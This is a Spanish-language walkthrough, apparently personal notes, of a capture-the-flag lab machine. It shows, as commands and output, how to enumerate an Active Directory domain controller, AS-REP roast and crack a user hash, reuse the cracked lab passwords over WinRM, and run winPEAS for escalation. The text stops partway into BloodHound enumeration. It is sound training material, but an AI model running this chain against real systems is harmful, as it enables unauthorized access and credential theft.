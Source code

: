 `nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.175 -oG allPorts`
`nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49673,49674,49677,49689,49697 -sCV 10.10.10.175 -oN targeted`
 ``` python
53/tcp    open  domain       
80/tcp    open  http         
|_http-server-header: Microso
|_http-title: Egotistical Ban
| http-methods: 
|_  Potentially risky methods
88/tcp    open  kerberos-sec 
135/tcp   open  msrpc        
139/tcp   open  netbios-ssn  
389/tcp   open  ldap         
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         
3269/tcp  open  tcpwrapped
5985/tcp  open  http         
|_http-server-header: Microso
|_http-title: Not Found
9389/tcp  open  mc-nmf       
49668/tcp open  msrpc        
49673/tcp open  ncacn_http   
49674/tcp open  msrpc        
49677/tcp open  msrpc        
49689/tcp open  msrpc        
49697/tcp open  msrpc        
 ```


#### 445
`netexec smb $IP`
Añadimos el dominio de la maquina a `/etc/host`
`netexec smb $IP --shares`
`smbmap -H $IP`
`smbclient -L $IP -N`


#### 135
`rpcclient -U "" $IP -N`
	`enumdomusers` No nos deja acceder


#### 389
En hacktricks buscamos por el puerto y ahí buscamos por `ldapsearch` para ver diferentes formas de enumerar el servicio

`ldapsearch -x -H ldap://10.10.10.175 -s base namingcontexts`

```
namingcontexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

```

`ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' | grep "dn: CN="`

```ad-hint
CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
```

Para validar si existe nos crearemos un `.txt`, con diferentes combinaciones del usuario

Enumeraríamos a través de kerberos con la herramienta [[KERBRUTE]]
`kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc $IP users.txt`
```ad-hint
[+] VALID USERNAME:       hsmith@EGOTISTICAL-BANK.LOCAL
```

Si nos hubiese aparecido un hash es que es vulnerable a `AS_REP ROAST`

Tambien podemos enumerar usuariios con:
`impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/`

Vamos a comprobrobar si se han reutilizado credenciales, 
`netexec smb $IP -u 'hsmith' -p 'hsmith'` No hay reutilización de credenciales


#### 53
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL ns`
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL mx`
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL axfr`

#### 80

Encontramos en `About Us` nombres de usuarios que añadiremos con el mismo formato que el encontrado anteriormente al documento de `users.txt`
```
hsmith
fsmith
scoins
hbear
btayler
skerb
```

Volvemos a usar [[KERBRUTE]] para identificar usuarios los usuarios encontrados:
`kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc $IP users.txt`

También lo podemos hacer con
`impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/`

Y nos mostraría que el usuario `fsmith` no cuenta con preautenticacion de kerberos y nos muestra el hash del Ticket Granting Ticket. Siendo asi vulnerable a `ASREPRoasting`

```ad-hint
ASREPRoasting en el usuario fsmith
```

Para crakeralo por fuerza bruta lo guardamos en un fichero llamado hash
Esta vez vamos ha crackearlo con la GPU directamente desde la máquina Windows, nos conectaremos por ssh a nuestra maquina HOST y navegaremos al directorio donde esta instalado el [[HASHCAT]], en nuestra maquina atacante levantamos un servicio SMB
`impacket-smbserver smbFolder $(pwd) -smb2support`

Y desde la máquina host obtenemos el archivo con el hash
`copy \\192.168.1.21\smbFolder\hash hash`

Ahora ejecutaremos [[HASHCAT]]
`hashcat.exe -m 18200 -a 0 hash rockyou.txt`

Nos muestra la contraseña del usuario `fsmith`
```ad-hint
fsmith::Thestrokes23
```

Comprobamos que la contraseña pertenezca al usuario 
`netexec smb $IP -u 'fsmith' -p 'Thestrokes23'`

Como el puerto `5985` esta abierto que corresponde al servicio de administración remota de Windows, así que vamos a intentar conectarnos con [[CRACKMAPEXEC-NETEXEC]]
`netexec winrm $IP -u 'fsmith' -p 'Thestrokes23'`

Nos aparece un `Pwn3d!` queriendo decir que este usuario pertenece al grupo de administración remota de la maquina pudiendo así acceder con [[EVIL_WINRM]]
`evil-winrm -i $IP -u 'fsmith' -p 'Thestrokes23'`

Obtenemos una consola interactiva


### Escalada de privilegios
`whoami /priv`
`whoami /all`

Ver que mas usuarios pertenecen al grupo de `REMOTE MANAGEMENT`
`net localgroup "Remote Management Users"`

Encontramos al usuario `svc_loanmgr`

Enumerar las credenciales del usuario:
Usaremos `WinPEAS` que nos lo transferiremos a la maquina atacante
`upload /home/jalag/Workzone/VPN/HTB/Machines/WorkLab/content/winPEAS.exe`

Ejecutamos el `winPEAS`
`.\winPEAS.exe`

Encontramos unas credenciales
```ad-hint
svc_loanmgr::Moneymakestheworldgoround!
```

Verificamos si las credenciales son validas
`netexec smb $IP -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'` y nos muestra que son validas

Verificamos si corresponde al grupo de Remote Management
`netexec winrm $IP -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'`

Y ahora nos conectamos con [[EVIL_WINRM]]
`evil-winrm -i $IP -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!`


### Escalada de privilegios

Empezaremos a enumerar ahora con `BLOODHOUND`
Primero en la terminal como el usuario `svc_lo`